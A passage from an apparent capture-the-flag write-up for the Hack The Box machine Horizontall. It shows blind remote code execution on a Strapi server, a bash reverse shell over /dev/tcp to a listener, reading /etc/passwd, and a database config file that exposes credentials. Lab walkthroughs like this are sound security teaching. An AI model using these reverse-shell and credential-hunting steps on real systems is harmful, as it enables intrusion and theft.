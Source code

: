 ```bash
```
From this point we obtained RCE on the machine (Blind RCE so we cannot see output of commands), and changed admin credentials to `admin:SuperStrongPassword1`. Now, we can test if we can establish a nc connection with our machine:
```bash
# RCE shell
$> nc 10.10.16.5 3333
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don\'t expect to see output
# Our shell
❯ nc -nlvp 3333
Connection from 10.10.11.105:46914
```
So there is conectivity. The last step is to try to establish a reverse shell:
```bash
# RCE shell
$> bash -c 'bash -i >& /dev/tcp/10.10.16.5/3333 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don\'t expect to see output
# Listening shell
❯ nc -nlvp 3333
Connection from 10.10.11.105:46922
bash: cannot set terminal process group (1897): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ whoami
whoami
strapi
```
We got a shell on the machine. Anyway, in the following execution we can see we are not the user we need yet:
```bash
strapi@horizontall:~/myapi$ cat /etc/passwd | grep "sh$"
cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
strapi:x:1001:1001::/opt/strapi:/bin/sh
strapi@horizontall:~/myapi$ ls /home
ls /home
developer
```
So we obtained `strapi` user, but we need to escalate to `developer` user.

## User shell
As `strapi` user we got access to `/myapi` and its content. We tried to read the flag and it is possible so we assume the user shell intended to capture was `strapi`.

### Privilege escalation
If we look around `/opt/myapi`, we will eventually find the file `/opt/myapi/config/environments/development/database.json`, with this content:
```bash
strapi@horizontall:~/myapi/config/environments$ cat development/database.json
cat development/database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
```